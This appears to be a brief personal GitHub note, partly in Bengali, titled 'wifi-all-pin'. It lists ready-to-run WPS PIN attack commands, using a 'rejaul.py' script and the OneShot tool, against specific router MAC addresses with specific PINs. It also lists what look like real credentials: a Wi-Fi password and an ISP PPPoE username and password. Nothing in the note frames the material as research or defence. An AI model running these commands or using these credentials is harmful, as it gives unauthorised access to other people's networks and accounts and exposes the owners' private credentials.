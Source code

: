 # wifi-all-pin 

## একটু স্লো দোকানের:-  

``` sudo python rejaul2712/rejaul.py -i wlan0 -b 84:D8:1B:AA:9D:A8 -B -p 06273385 ```

## saim solobd বাগিনা:-
 
```sudo python rejaul2712/rejaul.py -i wlan0 -b CC:2D:21:62:13:58 -B -p 55157698 ```


``` rayhan password:- Anas2520


#saim:-Router PPoe

```username:- 100886@naim.sol-bd.com ```

``` passwod:- 1122 ``` sudo python OneShot/oneshot.py -i wlan0 -b 48:22:54:14:A0:C9 -p 49937305
